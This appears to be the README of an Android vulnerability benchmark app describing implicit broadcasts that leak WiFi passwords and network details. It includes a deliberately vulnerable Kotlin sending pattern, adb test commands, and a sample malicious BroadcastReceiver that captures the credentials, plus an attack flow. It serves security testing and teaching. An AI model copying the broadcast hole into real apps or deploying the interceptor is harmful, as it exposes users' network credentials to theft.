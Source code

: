 # oxo-android-ben55: Implicit Broadcast with Sensitive Network Configuration Data

## Vulnerability Overview

Implicit Broadcast with Sensitive Network Configuration Data occurs when Android applications send broadcast intents containing sensitive **network configuration information** without restricting which applications can receive them. This vulnerability allows any app with a matching BroadcastReceiver to intercept and access **WiFi credentials**, network configurations, and connection details.

## Attack Vector: Network Configuration Data Leakage

**Brief Explanation**: A fitness tracking app that broadcasts **network configuration data** (WiFi passwords, network names, IP addresses, connection details) through implicit intents that can be intercepted by any app with matching receivers, enabling network reconnaissance and credential theft attacks.

**Key Characteristics:**
- Broadcasts **WiFi network credentials** and configuration data
- Exposes network passwords and connection details
- Leaks IP addresses, gateway information, and network topology  
- No permission requirements for malicious receivers to intercept network data

**Vulnerable Code Pattern:**
```kotlin
// VULNERABLE: Broadcasting network configuration without restrictions
val networkIntent = Intent("com.fittracker.NETWORK_SYNC")
networkIntent.putExtra("wifi_ssid", "MyHome_WiFi")  // Network name
networkIntent.putExtra("wifi_password", "mySecretPass123")  // WiFi password
networkIntent.putExtra("ip_address", "192.168.1.100")
networkIntent.putExtra("gateway", "192.168.1.1")
sendBroadcast(networkIntent)  // VULNERABLE - Any app can receive network data!

// Broadcasting network configuration data
networkIntent.putExtra("network_type", "WPA2")
networkIntent.putExtra("dns_servers", "8.8.8.8,8.8.4.4")
sendBroadcast(networkIntent)  // VULNERABLE - No permission required!
```

## Testing

### Step 1: Install and Launch FitTracker Pro
```bash
# Install the vulnerable fitness app
adb install -r /path/to/oxo-android-ben55/src/app/build/outputs/apk/debug/app-debug.apk

# Launch the app
adb shell am start -n co.ostorlab.myapplication/.MainActivity
```

### Step 2: Trigger Vulnerable Network Broadcasts
```bash
# Method 1: Simulate network configuration broadcasts
adb shell am broadcast -a "com.fittracker.NETWORK_SYNC" \
  --es wifi_ssid "MyHome_WiFi" \
  --es wifi_password "mySecretPass123" \
  --es ip_address "192.168.1.100" \
  --es gateway "192.168.1.1"

adb shell am broadcast -a "com.fittracker.NETWORK_UPDATE" \
  --es network_name "GymWiFi_5G" \
  --es network_key "gym2024pass!" \
  --es connection_type "WPA2" \
  --es dns_primary "8.8.8.8" \
  --es dns_secondary "8.8.4.4" \
  --es subnet_mask "255.255.255.0"
# Method 2: Simulate network connection broadcasts  
adb shell am broadcast -a "com.fittracker.WIFI_CONNECTED" \
  --es network_ssid "OfficeWiFi_Corp" \
  --es network_password "corporate2024!" \
  --es security_type "WPA2-Enterprise" \
  --es ip_address "10.0.1.150" \
  --es gateway_ip "10.0.1.1"

# Method 3: Simulate network synchronization broadcasts
adb shell am broadcast -a "com.fittracker.NETWORK_SYNC" \
  --es user_id "user_12345" \
  --es home_network "MyHome_5G" \
  --es work_network "OfficeGuest" \
  --es saved_networks "3"
```

### Step 3: Verify Network Data Interception
```bash
# Check broadcast history for intercepted network data
adb shell dumpsys activity broadcasts | sed -n '/Historical broadcasts summary/,/^$/p' | grep -A 5 "com.fittracker"
```

### Expected Results:
```
Historical broadcasts summary [modern]:
#0: act=com.fittracker.NETWORK_SYNC flg=0x400010 (has extras)
    extras: Bundle[{wifi_ssid=MyHome_WiFi, wifi_password=mySecretPass123, ip_address=192.168.1.100, gateway=192.168.1.1}]

#1: act=com.fittracker.WIFI_CONNECTED flg=0x400010 (has extras) 
    extras: Bundle[{network_ssid=OfficeWiFi_Corp, network_password=corporate2024!, security_type=WPA2-Enterprise, ip_address=10.0.1.150, gateway_ip=10.0.1.1}]

#2: act=com.fittracker.WIFI_CONNECTED flg=0x400010 (has extras)
    extras: Bundle[{home_network=MyHome_5G, work_network=OfficeGuest, saved_networks=3}]
```

## Impact Assessment
- **Confidentiality**: Critical - Exposes WiFi passwords, network credentials, and infrastructure details
- **Integrity**: Low - Data interception doesn't modify original information  
- **Availability**: Low - No direct impact on system availability
- **OWASP Mobile Top 10**: M2 - Insecure Data Storage, M4 - Insecure Communication, M10 - Extraneous Functionality
- **CWE**: CWE-200 (Information Exposure), CWE-522 (Insufficiently Protected Credentials), CWE-926 (Improper Export of Android Application Components)

## Malicious Receiver Example

An attacker app can intercept network credentials with:

```xml
<receiver android:name=".NetworkSpyReceiver" android:exported="true">
    <intent-filter>
        <action android:name="com.fittracker.NETWORK_SYNC" />
        <action android:name="com.fittracker.NETWORK_UPDATE" />
        <action android:name="com.fittracker.WIFI_CONNECTED" />
    </intent-filter>
</receiver>
```

```java
public class NetworkSpyReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        String action = intent.getAction();
        
        if ("com.fittracker.NETWORK_SYNC".equals(action)) {
            String wifiSSID = intent.getStringExtra("wifi_ssid");
            String wifiPassword = intent.getStringExtra("wifi_password");
            String ipAddress = intent.getStringExtra("ip_address");
            String gateway = intent.getStringExtra("gateway");
            // Attacker now has WiFi credentials and network topology
        }
        
        if ("com.fittracker.WIFI_CONNECTED".equals(action)) {
            String networkName = intent.getStringExtra("network_ssid");
            String networkKey = intent.getStringExtra("network_password");
            String securityType = intent.getStringExtra("security_type");
            // Attacker now has network connection details
        }
    }
}
```

## Network Reconnaissance Attack

Attackers can use intercepted network data for:

1. **WiFi Password Theft**: Direct access to network credentials
2. **Network Mapping**: IP ranges, gateway addresses, DNS servers
3. **Corporate Espionage**: Access to business network configurations
4. **Lateral Movement**: Using stolen credentials for network infiltration

**Example Attack Flow:**
```bash
# 1. Install malicious app with network broadcast receiver
# 2. Wait for victim to use fitness app
# 3. Intercept network credentials via broadcasts
# 4. Connect to victim's networks using stolen credentials
# 5. Perform network reconnaissance and data exfiltration
```

**Difficulty**: Easy - No special permissions required

## Impact Assessment

- **Confidentiality**: Critical - Exposes network passwords and infrastructure details
- **Integrity**: High - Enables network infiltration and data manipulation  
- **Availability**: Medium - Can disrupt network security and access controls
- **OWASP Mobile Top 10**: M2 - Insecure Data Storage, M4 - Insecure Communication, M10 - Extraneous Functionality
- **CWE**: CWE-200 (Information Exposure), CWE-522 (Insufficiently Protected Credentials), CWE-926 (Improper Export of Android Application Components)
